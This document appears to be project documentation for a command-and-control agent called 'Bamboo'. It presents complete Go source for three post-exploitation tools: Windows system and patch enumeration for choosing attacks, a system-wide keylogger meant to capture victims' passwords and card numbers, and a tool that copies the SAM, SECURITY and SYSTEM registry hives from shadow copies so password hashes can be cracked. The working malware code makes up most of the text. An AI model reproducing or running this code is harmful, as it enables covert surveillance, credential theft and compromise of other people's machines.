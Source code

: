 # Post Exploitation

## Machine Enumeration

### Description

The purpose of Bamboo’s enumeration tool is to enumerate the target machine first before launching an attack. The tool extracts three primary information:

- installed applications and their versions
- machine’s system version
- security updates installed on the machine (hotfixID and timestamp)

### Implementation

The team implemented the tool as part of the agent’s capabilities, allowing it to gather detailed information about the target system. The tool’s code is shown in the toggle below.

<details>
<summary>Expand code</summary>

```go
package post_exploit

import (
	"fmt"
	"os/exec"
)

func powershellCsv(command string) (outputString string, err error) {
	cmd := exec.Command("powershell", command, "| ConvertTo-Csv -NoTypeInformation")

	output, err := cmd.Output()
	if err != nil {
		return
	}
	outputString = string(output)
	return
}

func EnumerateSystem() (enumerateInfo map[string]string, err error) {
	enumerateInfo = make(map[string]string)

	// get system information
	enumerateInfo["system"], err = powershellCsv("Get-CimInstance -Class Win32_OperatingSystem | Select-Object BuildNumber, Caption, OSArchitecture")
	if err != nil {
		fmt.Println("Error retrieving system information:", err)
		return
	}
	fmt.Println("System Information:")
	fmt.Println(enumerateInfo["system"])

	// retrieve Windows update list
	enumerateInfo["updates"], err = powershellCsv("Get-WmiObject -Class Win32_QuickFixEngineering | Select-Object Description, HotFixID, InstalledOn")
	if err != nil {
		fmt.Println("Error retrieving update list:", err)
		return
	}
	fmt.Println("\nWindows Update List:")
	fmt.Println(enumerateInfo["updates"])

	// get applications
	enumerateInfo["applications"], err = powershellCsv("Get-Package -ProviderName Programs | Select-Object Name, Version | Sort-Object Name")
	if err != nil {
		fmt.Println("Error retrieving installed apps:", err)
		return
	}
	fmt.Println("\nInstalled Apps and Versions:")
	fmt.Println(enumerateInfo["applications"])

	return
}
```
</details>

This program consists of two functions: `powershellCsv` and `EnumerateSystem` .

**powershellCsv Function**

This function takes a PowerShell command as input, executes it, and converts the output to a CSV format.

**EnumerateSystem Function**

This is the main function of the program. It creates a map, **`enumerateInfo`**, to store the collected data. The function then calls **`powershellCsv`** to execute three PowerShell commands:

1. **System Information**

      Retrieves the system's build version, caption, and OS architecture.

1. **Windows Updates**

      Retrieves a list of installed Windows updates.

1. **Installed Applications**

      Retrieves the list of installed applications and their versions.

The output of each command is stored in the **`enumerateInfo`** map with its respective keys: ‘system’, ‘updates’, and ‘applications.

## Keylogging

### Description

Bamboo consists of a keylogging tool to capture keystrokes on the victim’s machine. With this tool, Bamboo Client users could potentially collect sensitive information such as passwords, credit card numbers, and more. 

### Implementation

The team implemented the tool as part of the agent’s capabilities. Its program utilises a GO library, [Gohook](https://github.com/robotn/gohook), which provides a global keyboard and mouse listener hook. The Gohook library uses the Windows API function, `SetWindowsHookEx` , to install a hook procedure that captures keyboard events. Specifically, it installs a **`WH_KEYBOARD`** hook, which captures keyboard events system-wide. The hook procedure is a callback function that is called whenever a keyboard event occurs. In Gohook, this callback function is implemented in Go and is responsible for processing the keyboard event. The program’s code is as shown in the toggle below.

<details>
<summary>Expand code</summary>

```go
package post_exploit

import (
	"fmt"
	"strings"
	"time"

	hook "github.com/robotn/gohook"
)

var keystrokes []string

func hookKeylog(evChan chan hook.Event) {
	for ev := range evChan {
		switch ev.Kind {
		case hook.KeyDown:
			// handle special keys as spaces
			switch ev.Keycode {
			case 8, 9, 13, 16, 17, 18, 32, 33, 34, 35, 36, 37, 38, 40, 45: // keycodes for backspace, tab, enter, space, pageup, pagedown, left, right, up, down, insert, delete, shift, ctrl, alt
				keystrokes = append(keystrokes, " ")
			case 49: // '!'
				keystrokes = append(keystrokes, "!")
			case 50: // '@'
				keystrokes = append(keystrokes, "@")
			case 51: // '#'
				keystrokes = append(keystrokes, "#")
			case 52: // '$'
				keystrokes = append(keystrokes, "$")
			case 53: // '%'
				keystrokes = append(keystrokes, "%")
			case 54: // '^'
				keystrokes = append(keystrokes, "^")
			case 55: // '&'
				keystrokes = append(keystrokes, "&")
			case 56: // '*'
				keystrokes = append(keystrokes, "*")
			case 57: // '('
				keystrokes = append(keystrokes, "(")
			case 48: // ')'
				keystrokes = append(keystrokes, ")")
			case 61: // '='
				keystrokes = append(keystrokes, "=")
			case 91: // '['
				keystrokes = append(keystrokes, "[")
			case 93: // ']'
				keystrokes = append(keystrokes, "]")
			case 92: // '\'
				keystrokes = append(keystrokes, "\\")
			case 59: // ';'
				keystrokes = append(keystrokes, ";")
			case 39: // '''
				keystrokes = append(keystrokes, "'")
			case 44: // ','
				keystrokes = append(keystrokes, ",")
			case 46: // '.'
				keystrokes = append(keystrokes, ".")
			case 47: // '/'
				keystrokes = append(keystrokes, "/")
			case 96: // '`'
				keystrokes = append(keystrokes, "`")
			case 126: // '~'
				keystrokes = append(keystrokes, "~")
			default:
				// for printable characters
				if ev.Keychar >= ' ' && ev.Keychar <= '~' {
					keystrokes = append(keystrokes, string(ev.Keychar))
				} else {
					// for unknown special characters or non-printable keys, handle accordingly
					keystrokes = append(keystrokes, " ") // record other special keys as space
				}
			}
		// exclude mouse events from being recorded
		case hook.MouseDown, hook.MouseUp, hook.MouseMove:
			continue
		}
	}
}

func RunKeylogger(keystrokesChan chan string, stopChan chan bool) {
	// make keystrokes blank
	keystrokes = make([]string, 0)

	// start event hook
	evChan := hook.Start()
	defer hook.End()

	go hookKeylog(evChan)

	ticker := time.NewTicker(5 * time.Second)
	defer ticker.Stop()

	stop := false
	for !stop {
		<-ticker.C
		// use select with default to make the stop channel not block
		select {
		case stop = <-stopChan:
			fmt.Println("Stopping keylogger...")
		default:
			fmt.Printf("Keystrokes pressed: %s\n", strings.Join(keystrokes, ""))
		}
		// keystrokes = nil // Reset keystrokes slice after printing
	}
	// send back keystrokes through channel
	keystrokesChan <- strings.Join(keystrokes, "")
}

```
</details>

This program consists of two functions: **`hookKeylog`** and **`RunKeylogger`**.

**hookKeylog Function**

This function is responsible for handling keyboard events. It takes a channel of hook events as input and processes each event. When a key is pressed, it appends the corresponding character to the **`keystrokes`** slice. The function handles special keys, such as backspace, tab, and enter, by appending a space to the **`keystrokes`** slice. It also handles special characters by appending the corresponding character to the **`keystrokes`** slice. These special characters are handled explicitly in the **`hookKeylog`** function to ensure that they are recorded correctly in the **`keystrokes`** slice.

**runKeylogger Function**

The function starts an event hook using the **`hook.Start()`** function and defers the **`hook.End()`** function to stop the hook when the program exits. The function then starts a goroutine to process keyboard events using the **`hookKeylog`** function. It also starts a timer to print the keystrokes every 5 seconds.

It listens for a stop signal using **`stopChan`** channel. When a stop signal is received, it stops the keylogger and prints a message indicating that the keylogger has stopped. Finally, the function sends the collected keystrokes through the **`keystrokesChan`** channel.

## Retrieval of Registry Hives

### Description

This tool allows Bamboo Client users to retrieve the SAM (Security Account Manager), SECURITY and SYSTEM files of a Windows machine. These hives contain critical information, detailed in the table below.

| Registry Hive | Description |
| --- | --- |
| SAM | Holds details on local user accounts such as hashed passwords  |
| SYSTEM | Holds details on the system’s hardware and configurations |
| SECURITY | Holds details on user accounts, group policies, and access control lists |

By obtaining these registry hives, Bamboo Client users can obtain hashed passwords, security tokens, and detailed configuration data. They can even attempt to crack the password hash and use the cracked passwords to compromise other areas. 

*Note. This tool can only be used if the Bamboo Agent is at least at a **High** privilege level.*

### Implementation

The team implemented the tool as part of the agent’s capabilities. The program’s code is as shown in the toggle below.

<details>
<summary>Expand code</summary>

```go
package post_exploit

import (
	"bytes"
	"fmt"
	"os"
	"os/exec"
	"regexp"
)

// Get the latest shadow copy volume
func getLatestShadowCopy() (string, error) {
	cmd := exec.Command("vssadmin", "list", "shadows")
	var out bytes.Buffer
	cmd.Stdout = &out
	err := cmd.Run()
	if err != nil {
		return "", err
	}

	// Extract all shadow copies
	re := regexp.MustCompile(`Shadow Copy Volume: (\\\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy\d+)`)
	matches := re.FindAllStringSubmatch(out.String(), -1)

	if len(matches) == 0 {
		return "", fmt.Errorf("no shadow copies found")
	}

	// Return the latest shadow copy volume
	return matches[len(matches)-1][1], nil
}

func readFile(sourceFile string) (data []byte, err error) {
	data, err = os.ReadFile(sourceFile)
	if err != nil {
		fmt.Println(err)
	}
	return
}

// read files from shadow copy
func readFilesFromShadowCopy(shadowCopyVolume string) (fileData map[string][]byte, err error) {
	fileData = make(map[string][]byte)
	filesToCopy := []string{"system", "sam", "security"}
	sourceFolder := fmt.Sprintf("%s\\windows\\system32\\config\\", shadowCopyVolume)

	for _, file := range filesToCopy {
		sourceFile := sourceFolder + file
		fmt.Printf("Reading %s\n", sourceFile)

		fileData[file], err = readFile(sourceFile)
		if err != nil {
			err = fmt.Errorf("error copying file %s: %w", file, err)
			return
		}
	}

	return
}

func SSSRetriver() (fileData map[string][]byte, err error) {
	// destinationFolder := "C:\\temp"

	shadowCopyVolume, err := getLatestShadowCopy()
	if err != nil {
		fmt.Printf("An error occurred: %s\n", err)
		return
	}

	fmt.Printf("Latest shadow copy volume: %s\n", shadowCopyVolume)
	fileData, err = readFilesFromShadowCopy(shadowCopyVolume)
	if err != nil {
		fmt.Printf("An error occurred: %s\n", err)
		return
	}

	fmt.Println("Files copied successfully.")
	return
}

```
</details>

This program consists of three functions: **`getLatestShadowCopy`**, **`readFile`**, and **`readFilesFromShadowCopy`**.

**getLatestShadowCopy Function**

This function retrieves the latest shadow copy volume using the **`vssadmin`** command. It runs the command, captures the output, and extracts the latest shadow copy volume using a regular expression.

**readFile Function**

This function reads a file from the specified source file path and returns the file data.

**readFilesFromShadowCopy Function**

This function reads files from the shadow copy volume. It takes the shadow copy volume as input, constructs the source folder path, and reads three specific files: **`system`**, **`sam`**, and **`security`**. The file data is stored in a map with the keys as its file names.

**SSSRetriver Function**

This is the main function of the program. It retrieves the latest shadow copy volume using **`getLatestShadowCopy`**, reads the files from the shadow copy volume using **`readFilesFromShadowCopy`**, and returns the file data.